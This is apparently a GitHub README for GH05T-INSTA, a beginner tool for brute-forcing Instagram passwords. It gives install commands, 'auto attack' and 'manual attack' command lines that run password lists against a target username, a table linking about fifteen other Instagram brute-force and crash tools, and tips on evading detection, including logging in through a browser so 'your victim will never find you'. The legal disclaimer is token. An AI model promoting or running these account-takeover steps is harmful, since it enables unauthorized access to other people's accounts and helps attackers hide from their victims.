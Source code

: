 <img src="https://media.tenor.com/qMER41oNWx8AAAAC/youve-been-hacked-gregory-brown.gif">

<i>It is a complete toolkit for beginners and easy to learn and use tool without additional pro hacking knowledge.</i>

<b>Main Menu </b>`Fork it...`
<img src="https://f.top4top.io/p_2591gdccl0.jpg">

### Tool Installation

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./venom.sh
```

`Choose : (01) Tool Installation`

### Run Tool

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./setup.sh
```

```
./import.sh
```

```
pip install -r requirements.txt
```

```
./venom.sh
```

`Choose : (02) Run Tool`

<img src="https://j.top4top.io/p_2590zeytt0.jpg" alt="GH05T-HUNTER5">

<!--
`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

<img src="https://a.top4top.io/p_258969ou50.jpg">

{MORE LINKS}

## Notice

<b><i>Please do not clone or download this tool because we are trying to fix the problems and we don't know how many possibilities there are to solve these problems.</i><b>

<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA"><br>
<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 7.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
chmod +x *
```
```
./install.sh
```

<b>or</b>

```
python install.py
```

<b>Start</b>

```
gh05t
```

```
 Run Tor
```


## Linux Installation 3.01 

`Install Home` 

`$ cd home/`

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
```
./gh05t --help
```

<b>or</b>

```
./gh05t
```

<b>Linux Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.linux/README.md">Click This</a></b>

<b>Report : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new?assignees=&labels=&template=bug_report.md&title=">Issues</a></b>

## Termux Installation 3.01 

```
pkg update && pkg upgrade
```
```
pkg install tor -y
```
```
pkg update tor -y 
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

## This Tool is not working properly Please wait we are trying to solve this problem 

<img src="https://user-images.githubusercontent.com/123439847/214219519-bea6426e-866f-42a9-8850-e8ab340020cc.png">

<b> Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">Link</a></b>

### Notice

`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

```bash
read -p 'Enter your name : ' user
gh05t --user $user --pass 18
```
### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

### Banner

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA"><br>

```
     ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗  
    ██╔════╝ ██║  ██║██╔═████╗██╔════╝╚══██╔══╝ 
    ██║  ███╗███████║██║██╔██║███████╗   ██║     
    ██║   ██║██╔══██║████╔╝██║╚════██║   ██║     
    ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║     
     ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝      
       ██╗███╗   ██╗███████╗████████╗ █████╗     
       ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗    
       ██║██╔██╗ ██║███████╗   ██║   ███████║    
       ██║██║╚██╗██║╚════██║   ██║   ██╔══██║    
       ██║██║ ╚████║███████║   ██║   ██║  ██║    
       ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝    


  ```


### INSTAGRAM BRUTEFORCE

##### Link ( 1 ) : https://github.com/MR-S74RK/ZHOI-INSTA

##### Link ( 2 ) : https://github.com/dark-player/instabrute.github.io

##### Link ( 3 ) : https://github.com/hackerxphantom/xinsta_brute

##### Link ( 4 ) : https://github.com/SamueleAmato/instaForce

##### Link ( 5 ) : https://github.com/eternalodball/insbrute

##### Link ( 6 ) : https://github.com/Bitwise-01/Instagram-

##### Link ( 7 ) : https://github.com/chinoogawa/instaBrute

##### Link ( 8 ) : https://github.com/importCTF/Instagram-Hacker

##### Link ( 9 ) : https://github.com/xHak9x/instabrute

##### Link ( 10 ) : https://github.com/TermuxHackz/instagram-bruteforcer



<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>
-->

### INSTA BRUTEFORCE TOOLS

#### beginner-friendly 

<table>
  <tr>
    <th>No#</th>
    <th>Tool Name</th>
    <th>Tool Link</th>
    <th>System</th>
    <th>Command</th>
  </tr>
  <tr>
   <td>01</td>
    <td>ZHOI-INSTA</td>
    <td><a href="https://github.com/MR-S74RK/ZHOI-INSTA">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ZHOI-INSTA.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>02</td>
    <td>instagram-crash</td>
    <td><a href="https://github.com/kucing-hitam/instagram-crash">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-crash.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>03</td>
   <td>Brutegram</td>
    <td><a href="https://github.com/Err0r-ICA/Brutegram">Link</a></td>
     <td>Termux</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Brutegram.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>04</td>
   <td>instashell</td>
    <td><a href="https://github.com/tiptoettt/instashell">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instashell.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>05</td>
   <td>insta-hack</td>
    <td><a href="https://github.com/IncredibleHacker/insta-hack">Link</a></td>
    <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insta-hack.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>06</td>
   <td>instainsane</td>
    <td><a href="https://github.com/umeshshinde19/instainsane">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instainsane.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>07</td>
   <td>xinsta_brute</td>
    <td><a href="https://github.com/hackerxphantom/xinsta_brute">Link</a></td>
    <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/xinsta_brute.md">INSTALLATION</a></td>
 </tr>
<tr>
<td>08</td>
   <td>SocialMediaHackingToolkit</td>
    <td><a href="https://github.com/RedKatz/SocialMediaHackingToolkit">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/SocialMediaHackingToolkit.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>09</td>
   <td>insbrute</td>
    <td><a href="https://github.com/eternalodball/insbrute">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insbrute.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>10</td>
   <td>Instagram-</td>
    <td><a href="https://github.com/Bitwise-01/Instagram-">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>11</td>
   <td>instaBrute</td>
    <td><a href="https://github.com/chinoogawa/instaBrute">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instaBrute.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>12</td>
   <td>Instagram-Hacker</td>
    <td><a href="https://github.com/importCTF/Instagram-Hacker">Link</a></td>
     <td>Kali User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-Hacker.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>13</td>
   <td>instabrute</td>
    <td><a href="https://github.com/xHak9x/instabrute">Link</a></td>
   <td>Termux User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instabrute.md">INSTALLATION</a></td>
<tr>
<td>14</td>
   <td>instagram-bruteforcer</td>
    <td><a href="https://github.com/TermuxHackz/instagram-bruteforcer">Link</a></td>
     <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-bruteforcer.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>15</td>
   <td>ighack</td>
    <td><a href="https://github.com/noob-hackers/ighack">Link</a></td>
     <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ighack.md">INSTALLATION</a></td>
  </tr>
<tr>
</table>

### GH05T-INSTA {BRUTEFORCE}

$ `apt install git`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `install.sh`

$ `gh05t`

<b>COMMAND : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">LINK</a></b>

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<pre>These hackers from India, Pakistan, Bangladesh, Germany and Russian created this tool , thanks to these hackers</pre>

